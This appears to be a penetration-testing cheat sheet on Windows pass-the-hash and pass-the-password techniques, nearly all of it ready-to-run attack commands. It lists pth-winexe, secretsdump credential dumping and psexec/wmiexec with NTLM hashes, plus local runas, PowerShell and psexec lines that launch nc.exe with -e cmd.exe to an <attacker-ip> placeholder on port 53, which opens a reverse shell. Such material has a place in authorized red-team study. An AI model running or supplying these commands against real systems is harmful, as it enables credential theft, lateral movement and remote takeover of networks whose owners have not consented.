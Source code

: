 # Pass the Hash / Password

{% hint style="warning" %}
!**!! NTLMv2 hashes can not be passed !!!**

**only NTLM hashes can be passed**

FOR TOOLS THAT HAVE TO USE LM HASH**E**S BEFORE NTLM HASH, ADD A BLANK LM HASH:

_aad3b435b51404eeaad3b435b51404ee_
{% endhint %}

## Remote

Pass the hash remotely to gain a shell:

### pth-winexe

```text
pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd
```

Sometimes you may need to reference the target by its hostname \(add an entry to /etc/hosts to make it resolve\):

```text
pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd
```

Alternative:

```text
export SMBHASH=<hash>
pth-winexe -U <domain>/<username>% //<target-ip> cmd
```

{% hint style="info" %}
remember the first hash portion is a blank LM hash between these signs : and %
{% endhint %}

### secretsdump

```text
secretsdump.py megacorp/hesher:"password123!"@192.168.56.116
```

### psexec.py / winexec.py

```text
python psexec.py "hesher":"password123!"@192.168.56.115

python psexec.py "hesher":@192.168.56.115 -hashes [nthash]

python wmiexec.py "hesher":"password123!"@192.168.56.115
```

### metasploit psexec

```text
use exploit/windows/smb/psexec
```

## Local

Pass the hash locally using runas:

```text
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
```

Pass the hash locally using PowerShell:

```text
secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

Pass the hash locally using psexec:

```text
psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
```











